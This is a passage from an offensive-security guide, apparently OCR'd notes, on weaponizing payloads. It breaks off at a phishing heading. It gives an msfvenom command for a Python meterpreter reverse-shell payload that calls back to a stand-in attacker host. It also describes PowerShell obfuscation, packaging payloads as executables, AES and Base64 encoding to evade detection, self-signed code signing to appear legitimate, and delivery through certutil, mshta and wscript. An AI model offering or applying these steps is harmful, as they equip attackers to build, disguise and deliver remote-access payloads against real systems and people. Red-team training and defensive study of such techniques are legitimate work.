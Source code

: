 - **Obfuscation**: Evade detection by disguising malicious code.
- Examples:
    - **Invoke-Obfuscation**: Obfuscate PowerShell scripts.
        
        ```powershell
        Invoke-Obfuscation
        
        ```
        
    - **PyInstaller**: Package Python payloads into standalone executables.

### **d. Custom Payloads**

- Use **Metasploit Framework** for customization.
- Example: Generate a Python script payload:
    
    ```bash
    msfvenom -p python/meterpreter_reverse_tcp LHOST=attacker_ip LPORT=4444 -f raw > payload.py
    
    ```
    

---

### **4. Weaponization Evasion Techniques**

- **Encryption**:
    - Use HTTPS or AES to encrypt payload communications.
    - Example with Python:
        
        ```python
        from Crypto.Cipher import AES
        cipher = AES.new(b'Sixteen byte key', AES.MODE_EAX)
        ciphertext, tag = cipher.encrypt_and_digest(b'payload data')
        
        ```
        
- **Obfuscation**:
    - Encode payloads in Base64 or other formats.
    - Example (Base64 Encoding):
        
        ```bash
        echo "payload" | base64
        
        ```
        
- **Code Signing**:
    - Sign binaries to appear legitimate (e.g., self-signed certificates).
- **Living Off the Land (LotL)**:
    - Use built-in tools like `certutil`, `mshta`, or `wscript` to deliver payloads.

---

### **5. Delivery Mechanisms**

### **a. Phishing**
